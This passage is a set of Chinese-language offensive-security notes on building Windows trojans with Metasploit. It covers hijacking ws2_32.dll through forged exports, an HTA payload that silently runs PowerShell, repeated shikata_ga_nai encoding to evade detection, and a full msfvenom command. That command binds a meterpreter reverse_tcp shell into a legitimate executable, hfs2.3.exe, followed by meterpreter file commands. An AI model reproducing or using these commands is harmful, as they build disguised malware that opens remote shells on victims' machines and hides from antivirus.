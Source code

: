 劫持ws2_32.dll可以实现抓包，改包，转向等
伪造导出表ep:
```
#pragma comment(linker, "/EXPORT:LpkInitialize=_gamehacker_LpkInitialize,@1")
```

dll导出表和劫持源码生成工具 load（）函数一般为工具生成的原本的dll，其上为注入函数

注入最好是在保护机制开启之前被调用的dll

### HTA

```
platform=hta-psh
```

基于HTML，木马中包含vbsscript,执行windows窗口不可见，创建了wscript.shell对象，执行powershell，小众木马

### 编码混淆

encoder/IDA分析

msfvenom -l encoder 查看编码混淆

```shell
encoder=x86/shikata_ga_nai
i=10
msfvenom -e $encoder -i $i
```

### keep

捆绑exe时新开线程启动

```
msfvenom -p $payload LHOST=$ip LPORT=$port -f $format -a $arch --platform $platform -o $out -x $x -k
```

ep:
```
msfvenom -p windows/meterpreter/reverse_tcp -f exe -a x86 --platform windows -o /home/yako/back.exe LHOST=192.168.113.133 LPORT=4444 -x /home/yako/桌面/hfs2.3.exe -k
```


#### 文件操作

meterpreter
ls/cat/edit flie 查看/编辑文件(可以使用命令dir，windows只有Dir但是应该具有ls转换)
cat exp.ini
edit exp.ini
getwd 远程方法获取当前路径
getlwd
pwd
mkdir filename创建文件夹
rmdir
cp文件
